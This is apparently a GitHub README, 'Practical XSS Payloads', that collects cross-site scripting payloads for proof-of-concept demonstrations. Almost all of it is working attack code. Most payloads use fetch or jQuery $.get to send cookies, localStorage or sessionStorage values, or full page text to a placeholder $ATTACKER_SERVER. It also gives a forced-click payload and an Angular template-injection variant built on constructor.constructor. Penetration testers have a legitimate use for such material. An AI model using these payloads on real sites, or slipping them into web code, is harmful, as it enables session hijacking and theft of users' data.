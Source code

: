 # Practical XSS Payloads
## About
Instead of using alert() for your XSS payloads, I encourage you to check out some XSS payloads which have purpose and hammer home a point.
+ **TLDR:** *POC||GTFO*

### **Quick-navigation:**
+ **EXFILTRATION:**  
  + [FETCH](https://github.com/Insecurities/PracticalXSSPayloads#fetch)  
  + [.$GET](https://github.com/Insecurities/PracticalXSSPayloads#jquery-ajax)
+ **ACTIONS:**
  + [CLICK](https://github.com/Insecurities/PracticalXSSPayloads#forcing-actions)
+ **ANGULAR NOTE**
  + [PAYLOADS FOR ANGULAR](https://github.com/Insecurities/PracticalXSSPayloads#angular)

# EXFILTRATION
*For session hijacking, sensitive info exfil, etc.*
## FETCH
### GET VALUE FROM LOCAL STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $FETCH:
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $FETCH
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```
### GET TEXT FROM PAGE AND $FETCH *(might be constrained by data length - use .slice() to shorten)*
```javascript
fetch("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```
## JQuery AJAX
### GET VALUE FROM LOCAL STORAGE AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+localStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET VALUE FROM SESSION STORAGE AND $.GET:
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))
```
### GET COOKIES AND $.GET
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.cookie)
```  
### GET TEXT FROM PAGE AND $.GET *(might be constrained by data length - use .slice() to shorten)*
```javascript
$.get("https://$ATTACKER_SERVER/?exfil="+document.documentElement.outerText)
```
# FORCING ACTIONS
*For forcing users to preform a certain action. This is tricky because every app is going to be different and thus these will require **modification**.*
## CLICK ELEMENT BY ID
```javascript
document.getElementById("$TARGET_ELEMENT_ID").click()
```

# ANGULAR
For Angular template injection you should be able to use the above payloads in conjunction with constructors. You can find an example below.
### GET VALUE FROM SESSION STORAGE AND FETCH
```javascript
{{constructor.constructor('fetch("https://$ATTACKER_SERVER/?exfil="+sessionStorage.getItem("$ITEM_FROM_LOCAL_STORAGE"))')()}}
```

